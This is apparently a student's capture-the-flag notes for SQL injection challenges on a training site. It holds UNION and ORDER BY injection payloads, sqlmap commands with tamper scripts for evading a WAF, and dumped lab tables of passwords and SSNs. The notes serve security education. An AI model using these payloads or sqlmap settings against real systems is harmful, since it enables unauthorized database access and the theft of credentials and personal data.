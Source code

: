 # SQL Injection

## Important Notes
1st thing's first, it seems most often you need your payload in the URL to start with an apostraphe `'` and end with `--`.

## Determining the number of columns required in a SQL injection UNION attack

When performing a SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

The first method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, assuming the injection point is a quoted string within the WHERE clause of the original query, you would submit:

```' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc. 
```

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

## Union Select Data Example

```Pets' union select username, password from users--```

## Random Notes

Union selects will **only work** if the column data types match!

This means that if you have a table that contains (int, string) and you want to dump the user credentials table (string:username, string:password), you'll have to concat user+pass and pass in null as the 1st parameter, so the response union select looks like (null, string:concat[username,password])









## Determine how many columns are being returned in the original sql payload
Not part of the curiculum but it's an extra tool in my belt I'll eventually need
>Sam' ORDER BY 1#

Returns nothing
>Sam' ORDER BY 2#

Gives an error.
Thus, there is 1 column being returned in the original payload.

>Sam' UNION SELECT ssn from employees#

Returns all SSNs in the employee table.

## ED 103.2.2: Password (20 pts extra)
The flag is Steve Jobs' password.
>Sam' union select pw from passwords where id=2#

alpine

## But how would I have found out that 'passwords' was a table that existed??
>Sam' union select 1 from passwords#

If this returns 1, it proves that the table passwords exists.
Now, column 'pw' I wouldn't have saught out to guess, but I guess any general variation of 'password' should always be checked.

## Dump all the passwords
>Sam' union select pw from passwords#


Haven't gotten this one yet...

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --columns -T passwords

```Table: passwords
[3 columns]
+---------+----------------------+
| Column  | Type                 |
+---------+----------------------+
| id      | smallint(5) unsigned |
| isadmin | smallint(5) unsigned |
| pw      | varchar(20)          |
+---------+----------------------+
```



### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T passwords
```+----+----------+---------+
| id | pw       | isadmin |
+----+----------+---------+
| 1  | Dropping | 1       |
| 2  | Fl33t    | 0       |
| 3  | d0ggi3   | 0       |
| 4  | h4gg15   | 0       |
| 5  | w1n73r   | 999     |
+----+----------+---------+
```

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T employees
```Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```

**Steve Job (id=2)'s password = Dropping. He wanted us to do it by manual UNION exploitation, so I'll have to manually do that.

Admin's ID:

1

[ ] - x' UNION SELECT name FROM employees WHERE name='admin' AND substr(id, 1, 1)='1'#
[!] - User x' UNION SELECT name FROM employees WHERE name='admin' AND length(id)='1'# found!



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

### Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

### Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.
```

General notes:
- -T tablename (specify tablename)
- --dump (dump all contents of the table; this is necessary for the command to work)

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables

```Database: widgets2a
Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```
